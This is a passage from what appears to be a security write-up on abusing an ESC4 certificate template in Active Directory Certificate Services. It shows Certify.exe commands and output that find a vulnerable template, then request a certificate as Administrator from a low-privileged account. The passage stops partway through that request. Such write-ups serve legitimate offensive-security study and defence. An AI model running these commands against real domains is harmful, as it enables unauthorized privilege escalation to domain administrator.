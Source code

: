 > __UPDATE__: After I wrote this article, I sent [a pull request](https://github.com/GhostPack/Certify/pull/8) to the GitHub repository for `Certify.exe`. 
> Lee Christensen ([@tifkin_](https://twitter.com/tifkin_)) merged my pull request and made some update.
> Now we can confirm `mspki-certificate-application-policy` attribute with `Certify.exe` as follows:
> 
> ```
> C:\Tools>Certify.exe find /vulnerable
> 
> --snip--
> 
> [!] Vulnerable Certificates Templates :
> 
>     CA Name                               : CA01.contoso.local\contoso-CA01-CA
>     Template Name                         : ESC4
>     Schema Version                        : 2
>     Validity Period                       : 1 year
>     Renewal Period                        : 6 weeks
>     msPKI-Certificates-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT, SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
>     mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
>     Authorized Signatures Required        : 0
>     Application Policies                  : Encrypting File System
>     pkiextendedkeyusage                   : Encrypting File System
>     mspki-certificate-application-policy  : Client Authentication
>     Permissions
>       Enrollment Permissions
>         Enrollment Rights           : CONTOSO\Domain Admins         S-1-5-21-3654360273-254804765-2004310818-512
>                                       CONTOSO\Domain Users          S-1-5-21-3654360273-254804765-2004310818-513
>                                       CONTOSO\Enterprise Admins     S-1-5-21-3654360273-254804765-2004310818-519
> 
> --snip--
> ```

### Domain Escalation
Now we can issue authentication purpose certificates with high privileged domain account by using the ESC4 certificate template.
At first, we request a high privileged domain account certificate with `Certify.exe`:

```
C:\Tools>Certify.exe request /ca:ca01.contoso.local\contoso-ca01-ca /template:ESC4 /altname:Administrator@contoso.local

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Request a Certificates

[*] Current user context    : CONTOSO\david
[*] No subject name specified, using current context as subject.

[*] Template                : ESC4
[*] Subject                 : CN=David, CN=Users, DC=contoso, DC=local
```